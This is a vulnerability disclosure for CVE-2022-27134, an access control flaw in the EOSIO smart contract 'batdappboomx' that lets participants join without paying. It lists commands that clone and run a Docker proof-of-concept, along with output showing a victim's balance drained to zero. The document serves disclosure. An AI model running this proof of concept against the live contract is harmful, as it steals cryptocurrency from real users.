 ## CVE ID
CVE-2022-27134

## PRODUCT
`batdappboomx` is a public smart contract running in the [EOSIO blockchain](https://eos.io/). This smart contract rewards cryptocurrency to its participants if they pay some cryptocurrency before. 


## Version
The latest version of this smart contract. The sha256 hash code of the smart contract is 1327c04cf4b56183eddb1a897bbebf5a873d3421272b708829a4ed0765bef820
Check it at the blockchain explorer https://bloks.io/account/batdappboomx.

## PROBLEM TYPE 
access control vulnerability

## DESCRIPTION

`batdappboomx` is not open-source, but we found a vulnerability with [WASAI](https://github.com/WASAIRepo/WASAI). Attackers can join in this game without paying anything. 

1. activate the environment

```bash
git clone https://github.com/Kenun99/CVE-batdappboomx.git && cd CVE-batdappboomx
docker build -t localhost/client-eos:eos .
docker run --rm  --network host -it localhost/client-eos:eos
```

2. attack the victim and steal its cryptocurrency, i.e., `EOS`

```bash
info  2022-03-11T14:28:53.345 keosd     wallet_plugin.cpp:38          plugin_initialize    ]
...
warn  2022-03-11T14:28:53.355 keosd     wallet.cpp:218                save_wallet_file     ] saving wallet to file /root/eosio-wallet/./default.wallet
Creating wallet: default
Save password to use in the future to unlock this wallet.
Without password imported keys will not be retrievable.
saving password to /root/passwd
imported private key for: EOS6MRyAjQq8ud7hVNYcfnVPJqcVpscN5So8BhtHuGYqET5GDW5CV
[+] victim's balance: 100.00 -> 0.00
[+] attacker's balance: 10000000.00 10000100.00

[+] Attacked successfully. Got more cryptocurrency.
```
